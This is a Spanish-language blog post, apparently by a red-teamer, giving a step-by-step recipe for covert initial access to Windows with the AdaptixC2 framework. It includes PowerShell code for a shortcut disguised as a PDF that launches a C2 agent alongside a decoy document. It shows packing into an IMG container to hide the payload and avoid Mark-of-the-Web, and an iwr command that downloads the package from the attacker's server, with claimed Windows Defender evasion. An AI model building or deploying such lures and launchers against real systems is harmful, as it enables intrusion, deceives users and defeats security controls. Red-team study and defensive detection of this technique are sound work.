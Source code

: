 # Método de ejecución Agente C2


# Método de ejecución Agente C2

## Introducción

En este post voy a describir una manera de como un atacante o miembros de un Red Team pueden elaborar un fichero malicioso y ser ejecutado en la maquina objetivo con el fin de obtener acceso sin ser detectado por el antivirus.

Para este post he utilizado el Command and Control AdaptixC2, no voy a entrar en profundidad en como se instala ya que en la propia documentación viene bien detallado el proceso. Aunque si encontráis algún inconveniente a la hora de instalar la versión de GO os recomiendo que descarguéis directamente el paquete de la web oficial [aqui](https://go.dev/dl/). 

Os dejo el repositorio de AdaptixC2  [aqui](https://github.com/Adaptix-Framework/AdaptixC2) y su documentacion [aqui](https://adaptix-framework.gitbook.io/adaptix-framework).

## Creación de listener y Agente

Una vez hemos ejecutado el servidor y el cliente, nos aparecerá la interfaz del cliente, lo primero que debemos hacer es crear un listener al que se conectara nuestro agente generado posteriormente.

Para este Post voy a utilizar un listener de tipo HTTP, para ello debemos hacer clic en la esquina superior izquierda en el icono de los cascos.

![image.png](image.png)

Una vez abierta la pestaña de los listeners hacemos clic derecho > Create y nos aparecerá la siguiente ventana:

![image.png](image%201.png)

Desde aquí podemos configurar nuestro listener, para esta prueba solo he realizado cambios en la pestaña Main settings, pero también se pueden configurar las cabeceras HTTP, una pagina de error y la pagina del Payload.

Indicamos un nombre y añadimos la ip de la maquina donde se ejecuta el servidor y un puerto, al final debería quedar algo así:

![image.png](image%202.png)

Para finalizar este paso solo nos queda generar el agente, para ello hacemos clic derecho en el listener recién creado.

![image.png](image%203.png)

Nos aparecerá la siguiente ventana:

![image.png](image%204.png)

Para esta prueba no he realizado cambios, pero como se puede observar podemos modificar la arquitectura, el tipo de formato, el campo Sleep, cuando queremos que termine la conexión remota y el tiempo activo del agente.

Hacemos clic en Generate y guardamos nuestro agente.

## Shell Link

Para la ejecución de nuestro agente voy a utilizar un fichero .lnk generado con PowerShell el cual va ejecutar nuestro agente y un pdf que queramos mostrarle al usuario objetivo como señuelo.

Esta opción es interesante ya que aunque el usuario tenga activado la opción de ver la extensión en el explorador, la extensión .lnk no va a ser visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

Si el icono de pdf no se muestra se puede cambiar haciendo clic en propiedades y cambiar icono.

![image.png](image%205.png)

## Container

Una vez tenemos los tres ficheros: Documento.pdf(señuelo), Agent.64.exe(payload) y Documento.pdf.lnk(trigger) pasamos a empaquetarlos en un único comprimido así evitamos el tener que enviar múltiples ficheros al objetivo.

Mark of the web(MotW) es un identificador de zona que se utiliza para marcar los archivos descargados de Internet como potencialmente inseguros.  Esto se puede ver en un archivo consultando sus propiedades en el Explorador o utilizando PowerShell.

![image.png](image%206.png)

![image.png](image%207.png)

Algunos  formatos de comprimidos admiten archivos ocultos, y otros no propagan MotW.  [Este repositorio](https://github.com/nmantani/archiver-MOTW-support-comparison) de [Nobutaka Mantani](https://x.com/nmantani) contiene una comparación de las propagaciones de MotW.

Para empaquetar nuestros ficheros voy a utilizar la herramienta [PackMyPayload](https://github.com/mgeeky/PackMyPayload).

Añado los ficheros a una carpeta.

```bash
ls -l 
total 100
-rw-r--r-- 1 root  root  80384 Jun  5 16:22 agent.x64.exe
-rw-rw-r-- 1 n1kto n1kto 13264 Jun  5  2025 Documento.pdf
-rw-rw-r-- 1 n1kto n1kto  1859 Jun  5  2025 Documento.pdf.lnk
```

Y los empaqueto en un fichero con formato IMG ocultando agent.64.exe y Documento.pdf utilizando el parámetro `-H` .

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Envió y ejecución

Por ultimo transferimos nuestro fichero generado a la maquina objetivo levantando un servidor con python:

```bash
python -m http.server 8000
```

y en la maquina objetivo desde PowerShell lo descargamos:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

Abrimos package.img y abrimos el fichero que contiene produciendo así la conexión del agente con nuestro Command and control y todo ello con Windows Defender activado.

![image.png](image%209.png)

![image.png](image%2010.png)

![image.png](image%2011.png)

Recuerdo que este post es con fines educativos y éticos y no se debe emplear para fines ilegales.

